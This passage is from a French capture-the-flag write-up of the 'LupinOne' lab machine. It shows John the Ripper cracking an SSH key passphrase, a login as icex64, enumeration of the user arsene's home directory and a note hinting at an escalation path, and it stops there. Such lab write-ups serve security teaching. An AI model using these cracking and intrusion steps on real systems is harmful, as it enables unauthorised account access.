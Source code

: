 Le site dispose d'un décodeur qui cette fois nous retourne la clé privée SSH sous un format bien reconnaissable.  

Pour le coup JtR n'en fait qu'une bouchée :  

```console
$ ./john  --wordlist=wordlist.txt  hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@55w0rd!        (/tmp/dcode-data.txt)     
1g 0:00:00:01 DONE (2021-11-19 17:22) 0.6535g/s 20.91p/s 20.91c/s 20.91C/s P@55w0rd..security
```

Intrusion
---------

On arrive alors sur cette machine Linux avec notre compte *icex64* :   

```
Linux LupinOne 5.10.0-8-amd64 #1 SMP Debian 5.10.46-5 (2021-09-23) x86_64 GNU/Linux
```

Je m'intéresse tout de suite aux autres utilisateurs, en particulier Arsène :  

```
uid=1000(arsene) gid=1000(arsene) groups=1000(arsene),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

```console
icex64@LupinOne:~$ ls -al /home/arsene
total 40
drwxr-xr-x 3 arsene arsene 4096 Oct  4 18:46 .
drwxr-xr-x 4 root   root   4096 Oct  4 09:15 ..
-rw------- 1 arsene arsene   47 Oct  4 18:47 .bash_history
-rw-r--r-- 1 arsene arsene  220 Oct  4 08:03 .bash_logout
-rw-r--r-- 1 arsene arsene 3526 Oct  4 08:03 .bashrc
-rw-r--r-- 1 arsene arsene  118 Oct  4 14:16 heist.py
drwxr-xr-x 3 arsene arsene 4096 Oct  4 12:37 .local
-rw-r--r-- 1 arsene arsene  339 Oct  4 15:07 note.txt
-rw-r--r-- 1 arsene arsene  807 Oct  4 08:03 .profile
-rw------- 1 arsene arsene   67 Oct  4 14:32 .secret
```

Arsène nous a laissé une note :  

```
Hi my friend Icex64,

Can you please help check if my code is secure to run, I need to use for my next heist.

I dont want to anyone else get inside it, because it can compromise my account and find my secret file.

Only you have access to my program, because I know that your account is secure.

See you on the other side.

Arsene Lupin.
```
